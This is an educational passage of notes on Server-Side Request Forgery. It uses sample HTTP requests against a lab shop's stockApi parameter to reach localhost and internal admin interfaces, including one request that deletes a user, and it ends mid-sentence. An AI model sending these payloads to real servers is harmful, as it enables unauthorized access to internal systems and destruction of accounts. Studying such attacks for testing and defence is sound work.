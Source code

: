 ![[SSRF.jpg]]
# Server-Side Request Forgery (SSRF)

An attacker can cause a server to make a connection to internal-only services within an organization or force the server to connect to external systems.

For SSRF attacks against a server, attackers cause it to make HTTP requests back to the server hosting the app, via loopback address typically via supplying a URL with a hostname like `127.0.0.1` or `localhost`. 
# SSRF Attacks Against Server

An app may show if an item is in stock via a query to a backend REST API by passing the URL via front-end HTTP request:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Request can be modified to specify a URL local to the server:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

For example, there may be functions to delete users located at `/admin/delete?username=carlos` which could be called and executed via SSRF:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin/delete?username=carlos
```
# SSRF Against Back End Systems

Sometimes, the app server can interact with back-end systems which often have private IP addresses and protected by network topology. Internal backend systems may contain sensitive functionality without needing authentication.

For example, there may be an administrative interface on an IP such as `https://192.168.0.68/admin`. If so, a request such as the following can be sent:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

If the IP address is not known